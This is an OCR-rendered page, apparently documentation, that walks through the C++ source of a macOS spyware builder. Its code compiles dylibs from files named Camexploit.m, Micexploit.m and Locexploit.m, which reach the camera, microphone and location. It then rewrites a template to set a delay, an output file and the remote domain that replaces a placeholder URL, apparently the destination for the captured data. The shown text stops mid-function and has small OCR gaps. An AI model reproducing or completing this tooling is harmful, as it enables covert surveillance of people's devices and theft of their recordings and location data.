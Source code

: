 ```
bool isNumber(const std::string& str) {
    for (char const &c : str) {
        if (!std::isdigit(c)) return false;
    }
    return true;
}
```

Here, checks if a given string is a number by iterating through each character in the string and ensuring it's a digit. It

returns `true` if the string is a number, `false` otherwise.

```
void compileAndExport(const std::string &libraryName) {
    std::string compileCommand;
    if (libraryName == "Camera") {
        compileCommand = "gcc -dynamiclib -framework Foundation -framework AVFoundation ./libs/Camexploit.m -o ./Exports/Cam.dylib";
    } else if (libraryName == "Microphone") {
        compileCommand = "gcc -dynamiclib -framework Foundation -framework AVFoundation ./libs/Micexploit.m -o ./Exports/Micexploit.dylib";
    } else if (libraryName == "Location") {
        compileCommand = "gcc -dynamiclib -framework Foundation -framework CoreLocation -framework AVFoundation ./libs/Locexploit.m -o ./Exports/Locexploit.dylib";
    }

    int result = system(compileCommand.c_str());
    if (result == 0) {
        std::cout << libraryName << " compilation successful. Exported to ./Exports folder.\n";
    } else {
        std::cerr << libraryName << " compilation failed. Please check the source code.\n";
    }
}
```

This function compiles and exports a library based on its name. It prepares a compilation command string based on the

library's name and then executes it using the system function. After execution, it checks if the compilation was successful

and notifies the user accordingly.

```
void updateFileContent(const std::string& filePath, const std::string& timeInSeconds, const std::string& outputFilename, const std::string& domainName) {
    std::ifstream file(filePath);
    std::ostringstream tempStream;
    std::string line;

    while (std::getline(file, line)) {
        if (line.find("[NSThread sleepForTimeInterval:") != std::string::npos) {
            tempStream << "[NSThread sleepForTimeInterval:" << timeInSeconds << ".0];\n";
        } else if (line.find("[NSTemporaryDirectory() stringByAppendingPathComponent:@\"file_name\"]") != std::string::npos) {
            tempStream << "NSString *outputFilePath = [NSTemporaryDirectory() stringByAppendingPathComponent:@\"" << outputFilename << "\"];\n";
        } else if (line.find("[request setURL:[NSURL URLWithString:@\"http://a.com\"]]") != std::string::npos) {
            tempStream << "[request setURL:[NSURL URLWithString:@\"" << domainName << "\"]];\n";
        } else {
            tempStream << line << "\n";
        }
    }
    file.close();

```